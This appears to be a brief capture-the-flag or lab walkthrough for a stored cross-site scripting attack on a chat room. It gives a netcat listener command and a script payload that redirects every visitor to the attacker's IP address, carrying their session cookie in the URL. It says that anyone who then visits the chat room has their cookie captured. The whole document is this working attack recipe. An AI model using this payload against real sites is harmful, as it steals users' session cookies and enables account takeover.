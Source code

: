 # XSS 
## Stored XX
### Chat Room XSS
- Start a netcat listener on your attack box
````
nc -nlvp 4444
````
- Take this XSS payload and paste it in the chat room and submit:
````
<script>window.location='http://10.13.**.**:4444/?cookie='+document.cookie</script>
````
- Page should reload and you should have the cookie of anyone that visits the chat room 

